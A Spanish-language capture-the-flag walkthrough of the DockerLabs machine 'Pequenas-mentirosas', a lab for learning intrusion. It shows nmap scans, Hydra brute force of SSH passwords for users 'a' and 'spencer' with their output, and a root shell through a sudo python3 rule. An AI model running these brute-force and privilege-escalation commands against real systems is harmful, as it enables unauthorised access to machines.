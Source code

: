 ```yaml
---
icon: flag
---
```


# Pequenas-mentirosas DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip pequenas-mentirosas.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh pequenas-mentirosas.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-30 12:08 EST
Nmap scan report for 172.17.0.2
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 9e:10:58:a5:1a:42:9d:be:e5:19:d1:2e:79:9c:ce:21 (ECDSA)
|_  256 6b:a3:a8:84:e0:33:57:fc:44:49:69:41:7d:d3:c9:92 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.73 seconds
```

Si entramos en la pagina veremos solamente este mensaje:

```
Pista: Encuentra la clave para A en los archivos.
```

Si hacemos un poco de `fuzzing` no veremos gran cosa por lo que vamos a tirarle fuerza bruta a la palabra `a` con la herramienta `hydra`.

## Escalate user a

### Hydra

```shell
hydra -l a -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-30 12:14:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: a   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 22 final worker threads did not complete until end.
[ERROR] 22 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-30 12:14:17
```

Vemos que efectivamente nos encuentra las credenciales, por lo que nos meteremos como dicho usuario.

### SSH

```shell
ssh a@<IP>
```

Metemos como contraseña `secret` y veremos que estamos dentro.

## Escalate user spencer

Si listamos el archivo de `passwd` veremos lo siguiente:

```shell
cat /etc/passwd | grep "/bin/bash"
```

Info:

```
root:x:0:0:root:/root:/bin/bash
spencer:x:1000:1000::/home/spencer:/bin/bash
a:x:1001:1001::/home/a:/bin/bash
```

Vemos que hay otro usuario, por lo que probaremos a tirarle de nuevo fuerza bruta.

### Hydra

```shell
hydra -l spencer -P <WORDLIST> ssh://<IP> -t 64 
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-30 12:17:42
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: spencer   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 24 final worker threads did not complete until end.
[ERROR] 24 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-30 12:17:47
```

Vemos que encontramos las credenciales del usuario `spencer` por lo que haremos lo siguiente:

```shell
su spencer
```

Metemos como contraseña `password1` y veremos que somo dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for spencer on 7ed327dd9786:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User spencer may run the following commands on 7ed327dd9786:
    (ALL) NOPASSWD: /usr/bin/python3
```

Vemos que podemos ejecutar el binario `python3` como el usuario `root`, por lo que haremos lo siguiente:

```shell
sudo python3 -c 'import os; os.system("/bin/bash")'
```

Info:

```
root@7ed327dd9786:/home/spencer# whoami
root
```

Y con esto seremos `root`, por lo que ya habremos terminado la maquina.
